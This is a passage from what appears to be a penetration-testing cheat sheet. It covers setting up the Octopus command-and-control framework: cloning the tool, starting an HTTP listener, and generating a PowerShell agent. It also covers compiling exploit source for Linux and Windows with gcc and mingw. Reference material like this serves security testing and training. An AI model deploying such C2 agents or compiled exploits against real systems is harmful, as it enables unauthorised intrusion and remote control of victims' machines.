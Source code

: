 If a script is found try [SHELLSHOCK](#shellshock).

---

## Command and control framework

```
# Download
git clone https://github.com/mhaskar/Octopus/tree/v1.2

# Install requirements
pip install -r requirements.txt

# Usage
./octopus.py

# Listener (exemple)
listen_http <BIND_IP> <BIND_PORT> <HOSTNAME> <INTERVAL_IN_SECONDS> <URL> <LISTENER_NAME>
listen_http 0.0.0.0 80 192.168.1.87 5 test.php listener_1

# Agent (exemple)
generate_powershell <LISTENER_NAME>
generate_powershell listener_1
```

---

## Compiling exploits

### For linux

```
# 64 bits
gcc -o exploit exploit.c

# 32 bits
gcc -m32 -o exploit exploit.c
```

### For windows

```
To compile Win32 bit executables, execute i686-w64-mingw32-gcc -o <FILE.exe> <FILE.c>
To compile Win64 bit executables, execute x86_64-w64-mingw32-gcc -o <FILE.exe><FILE.c>
To Compiled .cpp source file, execute i586-mingw32msvc-g++ -o <FILE>.exe <FILE>.cpp
To compile python scripts, pyinstaller --onefile <SCRIPT.py>

# Compile windows .exe on Linux
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
```

### Cross compile
